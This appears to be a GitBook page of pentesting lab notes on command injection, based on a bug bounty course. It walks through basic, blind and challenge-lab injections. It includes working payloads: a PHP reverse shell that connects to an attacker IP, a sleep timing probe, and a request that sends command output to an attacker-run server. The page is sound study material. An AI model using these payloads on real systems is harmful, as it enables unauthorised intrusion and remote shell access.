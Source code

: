 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Examples

## Examples

### Basic

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><img src="../../../../.gitbook/assets/web_ci_basic_1.png" alt=""><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the app and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).

{% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### Blind

{% hint style="success" %}
**Blind Command Injection** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](examples.md#basic) does not work (Figure 3.1). Either something gets filtered, which we can check (Figure 3.2 & 3.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 3: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the app's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 4).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 4: Confirming a blind CI vulnerability.</p></figcaption></figure>

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 5).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

### ?

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_1.png" alt=""><figcaption><p>Figure 6: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 7).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_2.png" alt=""><figcaption><p>Figure 7: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](examples.md#basic) (Figure 8).

{% code overflow="wrap" %}
```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_3.png" alt=""><figcaption><p>Figure 8: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution
